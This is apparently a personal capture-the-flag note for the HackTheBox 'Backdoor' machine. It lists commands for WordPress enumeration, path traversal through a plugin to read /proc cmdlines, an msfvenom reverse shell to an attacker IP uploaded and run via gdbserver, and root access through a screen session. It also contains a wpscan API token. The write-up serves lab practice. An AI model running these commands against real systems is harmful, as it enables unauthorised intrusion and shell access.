


# Summary


## about target

tip:  10.129.96.68

hostname:  Backdoor

Difficulty:  Easy


## about attack

+ Lfi, list proc file to find the service cmdline and port.
+ gdbserver exploit
+ Screen root privesc


**attack note**

```bash
Backdoor / 10.129.96.68


---- Interesting
-- from 1337, sec_notes/


---- Enum 


wpscan --url http://10.129.96.68  --api-token eHmdOsNYBMMTmCxORyxOKVa5MZnegduDGRkGemtaFgo -e ap,u,at -t 10 --plugins-detection aggressive

for i in $(seq 1 1000); do curl http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/${i}/cmdline --output - | cut -d "/" -f 8- | sed  "s/<script>.*//g" > ${i}; done

find . -type f -size +20c -exec cat {} \;
---- Foothold
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.14 LPORT=9001 PrependFork=true -f elf -o binary.elf

chmod +x binary.elf

gdb binary.elf

target extended-remote 10.129.96.68:1337

# Upload elf file
remote put binary.elf binary.elf

# Set remote executable file
set remote exec-file /home/user/binary.elf

# Execute reverse shell executable
run

---- System

screen -ls 
screen -r root/
export TERM=xterm
screen -r root/
```


# Enum

## nmap scan


```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip


```








# Foothold


# Privesc


## proof

```bash


```


